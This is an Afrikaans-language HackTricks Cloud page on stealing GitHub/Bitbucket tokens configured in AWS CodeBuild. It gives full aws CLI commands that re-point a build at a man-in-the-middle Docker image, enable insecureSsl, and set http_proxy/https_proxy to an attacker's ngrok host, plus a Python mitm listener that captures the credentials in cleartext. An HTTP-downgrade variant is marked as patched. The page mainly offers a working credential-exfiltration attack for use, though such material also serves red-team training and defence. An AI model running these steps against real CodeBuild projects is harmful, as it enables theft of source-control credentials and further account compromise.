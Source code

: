 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Herstel Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bron geloofsbriewe geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat outentikasie na byvoorbeeld Github in die rekening gestel is, kan jy **exfiltrate** daardie **access** (**GH token of OAuth token**) deur Codebuild te laat **gebruik 'n spesifieke docker image** om die bou van die projek te loop.

Vir hierdie doel kan jy **'n nuwe Codebuild projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **env variables `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer wat in **`https_proxy`** en **`http_proxy`** aangedui is, te onderskep en die SSL CERT wat in **`SSL_CERT_FILE`** aangedui is, te vertrou.

1. **Create & Upload your own Docker MitM image**
* Volg die instruksies van die repo om jou proxy IP adres in te stel en jou SSL cert in te stel en **build die docker image**.
* **MOENIE `http_proxy` INSTEL NIE** om nie versoeke na die metadata eindpunt te onderskep nie.
* Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer in te stel.
* Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Set the environment**
* Skep 'n **nuwe Codebuild projek** of **wysig** die omgewing van 'n bestaande een.
* Stel die projek in om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Soos aangedui in die **Github repo** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit met weergawe 10 dalk nie sal werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token in die **Authorization** koptekst sien:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook vanaf die aws cli gedoen word met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekte het 'n instelling genaamd **`insecureSsl`** wat in die web versteek is en jy kan dit slegs vanaf die API verander.\
Deur dit in te skakel, kan Codebuild met die repository verbind **sonder om die sertifikaat** wat deur die platform aangebied word, te kontroleer.

* Eerstens moet jy die huidige konfigurasie opnoem met iets soos:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Dan, met die versamelde inligting kan jy die projekinstelling **`insecureSsl`** op **`True`** opdateer. Die volgende is 'n voorbeeld van my opdatering van 'n projek, let op die **`insecureSsl=True`** aan die einde (dit is die enigste ding wat jy moet verander van die versamelde konfigurasie).
* Boonop, voeg ook die omgewing veranderlikes **http\_proxy** en **https\_proxy** by wat na jou tcp ngrok wys soos: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Dan, voer die basiese voorbeeld uit [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in die poort aangedui deur die proxy veranderlikes (http\_proxy en https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP-protokol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is op 'n stadium in die week van die 20ste Februarie 2023 deur AWS reggestel (ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket-token** wat geconfigureer is, lek of as regte via OAuth geconfigureer is, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewing veranderlike **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Verander dan die URL van die github-repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: `http://github.com/carlospolop-forks/TestActions`
* Voer dan die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit in die poort wat deur die proxy-variabeles (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token van sy masjien te gebruik, al die voorregte wat dit het op te lys en (mis)bruik makliker as om die CodeBuild-diens direk te gebruik.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
